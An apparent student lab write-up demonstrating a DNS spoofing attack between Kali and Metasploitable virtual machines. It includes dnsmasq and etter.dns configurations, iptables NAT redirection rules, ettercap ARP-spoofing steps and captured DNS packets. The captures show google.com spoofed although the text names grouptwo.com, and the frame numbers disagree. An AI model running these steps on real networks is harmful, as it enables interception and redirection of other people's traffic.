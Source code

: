 #+title: DNS Spoofing Attack
#+Author: Adithya Nair
#+HTML_HEAD: <link rel="stylesheet" type="text/css" href="https://gongzhitaao.org/orgcss/org.css"/>
* Background
This is a demonstration of a DNS Spoofing attack using virtual machines.

The process in brief, we start up a Kali VM running dnsmasq.

dnsmasq is a service that allows you to run a lightweight dns server for local networks. The attack works as follows.

A user attempts to access a domain, for this example we have poisoned the DNS records of the domain grouptwo.com. The Kali VM performs an ARP spoof, which sends ARP packets to all the devices in the local network to make the Kali VM act as the default gateway. All requests are routed through the VM now.

The VM is setup such that it performs IP forwarding, all packets are sent to their intended destination.

We update the IP tables to redirect and manage DNS traffic, both TCP and UDP packets. We also add in a command that updates the source address of the IP address of the DNS response to make it seem like it came from a legitimate DNS server (for example 8.8.8.8).

We apply the attack using the ettercap software as will be detailed below.
* Implementation
We have two VMs, one running Kali Linux and the other running a VM called Metasploitable. These VMs exist in a virtual network with the network address 10.0.2.0
* Setup
** IP Address Info
 * Kali VM - 10.0.2.15
 * Metasploitable - 10.0.2.4
** On Kali
*** Writing The DNSMasq Configuration
#+begin_src conf
interface=eth0
address=/grouptwo.com/10.0.2.15
#+end_src
*** Writing The etter.dns configuration
#+begin_src dns
grouptwo.com A 10.0.2.15
#+end_src
*** Enabling IP Forwarding
#+begin_src shell
echo 1 > /proc/sys/net/ipv4/ip_forward
#+end_src
*** Configuring The IP Tables
#+begin_src shell
sudo iptables -t nat -A PREROUTING -p udp --dport 53 -j DNAT --to-destination 10.0.2.15:53
sudo iptables -t nat -A PREROUTING -p tcp --dport 53 -j DNAT --to-destination 10.0.2.15:53
sudo iptables -t nat -A POSTROUTING -j MASQUERADE
#+end_src
* How To Execute The Attack
** On Kali
Start DNS Server
#+begin_src shell
sudo systemctl start dnsmasq.service
#+end_src

Start sniffing

#+begin_src shell
sudo ettercap -G
#+end_src

Click Accept

Apply scan for hosts.

Activate the DNS Spoofing plugin.
* Packets Captured
** Query
*** Summary
#+begin_example
97	39.532672	10.0.2.4	8.8.8.8	DNS	70	Standard query 0x8dd1 A google.com
#+end_example
*** YAML
#+begin_example
# Packet 0 from /home/kali/Desktop/dns_spoofing.pcap
- 97
- 39.532672
- 10.0.2.4
- 8.8.8.8
- DNS
- 70
- Standard query 0x8dd1 A google.com
#+end_example
*** Packet
#+begin_example
Frame 97: 70 bytes on wire (560 bits), 70 bytes captured (560 bits)
Ethernet II, Src: PCSSystemtec_c1:17:c2 (08:00:27:c1:17:c2), Dst: PCSSystemtec_ad:25:87 (08:00:27:ad:25:87)
Internet Protocol Version 4, Src: 10.0.2.4, Dst: 8.8.8.8
User Datagram Protocol, Src Port: 53085, Dst Port: 53
    Source Port: 53085
    Destination Port: 53
    Length: 36
    Checksum: 0x7275 [unverified]
    [Checksum Status: Unverified]
    [Stream index: 0]
    [Timestamps]
    UDP payload (28 bytes)
Domain Name System (query)
    Transaction ID: 0x8dd1
    Flags: 0x0100 Standard query
    Questions: 1
    Answer RRs: 0
    Authority RRs: 0
    Additional RRs: 0
    Queries
    [Response In: 98]
#+end_example

** Response
*** Summary
#+begin_example
99	39.533556	8.8.8.8	10.0.2.4	DNS	86	Standard query response 0x8dd1 A google.com A 10.0.2.15
#+end_example
*** YAML
#+begin_example
# Packet 1 from /home/kali/Desktop/dns_spoofing.pcap
- 98
- 39.532899
- 8.8.8.8
- 10.0.2.4
- DNS
- 86
- Standard query response 0x8dd1 A google.com A 10.0.2.15
#+end_example
*** Packet
#+begin_example
Frame 98: 86 bytes on wire (688 bits), 86 bytes captured (688 bits)
Ethernet II, Src: PCSSystemtec_ad:25:87 (08:00:27:ad:25:87), Dst: PCSSystemtec_c1:17:c2 (08:00:27:c1:17:c2)
Internet Protocol Version 4, Src: 8.8.8.8, Dst: 10.0.2.4
User Datagram Protocol, Src Port: 53, Dst Port: 53085
    Source Port: 53
    Destination Port: 53085
    Length: 52
    Checksum: 0x1c59 [unverified]
    [Checksum Status: Unverified]
    [Stream index: 0]
    [Timestamps]
    UDP payload (44 bytes)
Domain Name System (response)
    Transaction ID: 0x8dd1
    Flags: 0x8580 Standard query response, No error
    Questions: 1
    Answer RRs: 1
    Authority RRs: 0
    Additional RRs: 0
    Queries
    Answers
    [Request In: 97]
    [Time: 0.000227000 seconds]
#+end_example
